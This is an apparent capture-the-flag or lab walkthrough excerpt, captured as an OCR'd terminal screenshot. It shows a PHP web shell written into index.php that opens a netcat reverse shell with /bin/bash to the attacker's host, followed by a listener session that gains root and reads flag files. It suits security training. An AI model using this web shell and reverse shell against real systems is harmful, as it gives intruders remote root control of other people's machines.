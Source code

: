 echo "<?php system('nc 192.168.45.231 21 -e /bin/bash')?>" > index.php

curl 127.0.0.1:57

  

Kali

 →  nc -nlvp 21                                                                                                      20:06:06

listening on [any] 21 ...                                                                                                     

connect to [192.168.45.231] from (UNKNOWN) [192.168.235.72] 57736                                                             

whoami                                                                                                                        

root                                                                                                                          

cd                                                                                                                            

ls                                                                                                                            

ftp                                                                                                                           

proof.txt                                                                                                                     

root.txt                                                                                                                

cat proof.txt                                                                                                           

949eb9943dcce67d197725cd417db738                                                                                      

cat root.txt                                                                                                          

Your flag is in another file...


Boot2Root (In a way that actually makes sense)